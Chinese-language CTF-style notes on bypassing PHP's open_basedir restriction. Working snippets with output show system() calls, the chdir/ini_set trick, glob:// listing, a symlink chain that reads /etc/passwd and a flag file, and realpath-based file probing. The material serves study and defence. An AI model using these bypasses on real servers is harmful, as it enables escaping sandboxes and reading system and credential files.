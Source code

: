 ## open_basedir绕过

>`open_basedir`将php所能打开的文件限制在指定的目录中,当程序使用如`file_get_contents()`函数来读取文件时,会检查文件位置,如果不在指定的目录下,会拒绝打开

`php.ini`中设置`open_basedir=/var/www/html`

```php
<?php
var_dump(scandir('.'));
echo '<br><br>';
var_dump(scandir('/'));
?>
```

```
array(9) { [0]=> string(1) "." [1]=> string(2) ".." [2]=> string(13) "bjd_ezphp.php" [3]=> string(7) "dropbox" [4]=> string(8) "flag.php" [5]=> string(12) "fuzz_rce.php" [6]=> string(12) "geek_rce.php" [7]=> string(8) "phar.php" [8]=> string(8) "test.php" }


Warning: scandir(): open_basedir restriction in effect. File(/) is not within the allowed path(s): (/var/www/html) in /var/www/html/test.php on line 4

Warning: scandir(/): failed to open dir: Operation not permitted in /var/www/html/test.php on line 4

Warning: scandir(): (errno 1): Operation not permitted in /var/www/html/test.php on line 4
bool(false) 
```

### 利用system函数绕过

> 相当于直接执行系统命令,不受open_basedir影响

```php
<?php
var_dump(scandir('/'));
echo '<br><br>';
system("cd / && ls");
?>
```

```
Warning: scandir(): open_basedir restriction in effect. File(/) is not within the allowed path(s): (/var/www/html) in /var/www/html/test.php on line 2

Warning: scandir(/): failed to open dir: Operation not permitted in /var/www/html/test.php on line 2

Warning: scandir(): (errno 1): Operation not permitted in /var/www/html/test.php on line 2
bool(false)

bin boot dev etc home lib lib64 media mnt opt proc root run sbin srv sys tmp usr var 
```

## 利用chdir和ini_set绕过

[原理](https://skysec.top/2019/04/12/%E4%BB%8EPHP%E5%BA%95%E5%B1%82%E7%9C%8Bopen-basedir-bypass/#poc%E6%B5%8B%E8%AF%95)

```php
<?php
mkdir('test');
chdir('test');
ini_set('open_basedir','..');
chdir('..');
chdir('..');
chdir('..');
chdir('..');
ini_set('open_basedir','/');
var_dump(scandir('/'));
?>
```

```
array(22) { [0]=> string(1) "." [1]=> string(2) ".." [2]=> string(10) ".dockerenv" [3]=> string(3) "bin" [4]=> string(4) "boot" [5]=> string(3) "dev" [6]=> string(3) "etc" [7]=> string(4) "home" [8]=> string(3) "lib" [9]=> string(5) "lib64" [10]=> string(5) "media" [11]=> string(3) "mnt" [12]=> string(3) "opt" [13]=> string(4) "proc" [14]=> string(4) "root" [15]=> string(3) "run" [16]=> string(4) "sbin" [17]=> string(3) "srv" [18]=> string(3) "sys" [19]=> string(3) "tmp" [20]=> string(3) "usr" [21]=> string(3) "var" } 
```

### 利用glob://

```php
<?php
var_dump(scandir('glob:///*'));
?>
```

```
array(19) { [0]=> string(3) "bin" [1]=> string(4) "boot" [2]=> string(3) "dev" [3]=> string(3) "etc" [4]=> string(4) "home" [5]=> string(3) "lib" [6]=> string(5) "lib64" [7]=> string(5) "media" [8]=> string(3) "mnt" [9]=> string(3) "opt" [10]=> string(4) "proc" [11]=> string(4) "root" [12]=> string(3) "run" [13]=> string(4) "sbin" [14]=> string(3) "srv" [15]=> string(3) "sys" [16]=> string(3) "tmp" [17]=> string(3) "usr" [18]=> string(3) "var" } 
```

只能对根目录进行读取,当传入的参数为`glob://*`时会列出open_basedir允许目录下的文件

### 利用symlink

```php
<?php
@mkdir('a/b/c/d/e/f/g/');
symlink('a/b/c/d/e/f/g','temp');
ini_set('open_basedir','/var/www/html:readfile/');
symlink('temp/../../../../../../','readfile');
unlink('temp');
symlink('/var/www/html','temp');
var_dump(file_get_contents('readfile/flag'));
echo '<br><br>';
var_dump(file_get_contents('readfile/etc/passwd'));
unlink('temp');
unlink('readfile');
?>
```

```
string(11) "flag{flag} "

string(926) "root:x:0:0:root:/root:/bin/bash daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin bin:x:2:2:bin:/bin:/usr/sbin/nologin sys:x:3:3:sys:/dev:/usr/sbin/nologin sync:x:4:65534:sync:/bin:/bin/sync games:x:5:60:games:/usr/games:/usr/sbin/nologin man:x:6:12:man:/var/cache/man:/usr/sbin/nologin lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin mail:x:8:8:mail:/var/mail:/usr/sbin/nologin news:x:9:9:news:/var/spool/news:/usr/sbin/nologin uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin proxy:x:13:13:proxy:/bin:/usr/sbin/nologin www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin backup:x:34:34:backup:/var/backups:/usr/sbin/nologin list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin _apt:x:100:65534::/nonexistent:/usr/sbin/nologin "
```

1. 在`/var/www/html`目录下新建`a/b/c/d/e/f/g/`目录
2. 在`/var/www/html`目录下创建链接`temp`到`a/b/c/d/e/f/g`
3. `symlink('temp/../../../../../../','readfile');`等价于`symlink('a/b/c/d/e/f/g/../../../../../../','readfile');`
4. `ini_set('open_basedir','/var/www/html:readfile/');`添加权限

5. `unlink('temp');`然后`symlink('/var/www/html','temp');`等价于`symlink('/var/www/html/../../../../../../','readfile');`相当于`readfile`为根目录

## SplFileInfo::getRealPath或者realpath

用于验证该路径是否存在,没有考虑`open_basedir`

```php
<?php
$info = new SplFileInfo('/flag');
var_dump($info->getRealPath());
$info = new SplFileInfo('/etc/passwd');
var_dump($info->getRealPath());
$info = new SplFileInfo('/etc/wdnmd');
var_dump($info->getRealPath());
?>
```

```
string(5) "/flag"
string(11) "/etc/passwd"
bool(false)
```

用样也可以用`realpath`

```php
<?php
var_dump(realpath('/asdf'));
var_dump(realpath('/flag'));
?>
```

> 注意报错,用报错来判断文件是否存在

```
bool(false)

Warning: realpath(): open_basedir restriction in effect. File(/flag) is not within the allowed path(s): (/var/www/html) in /var/www/html/test.php on line 3
bool(false)
```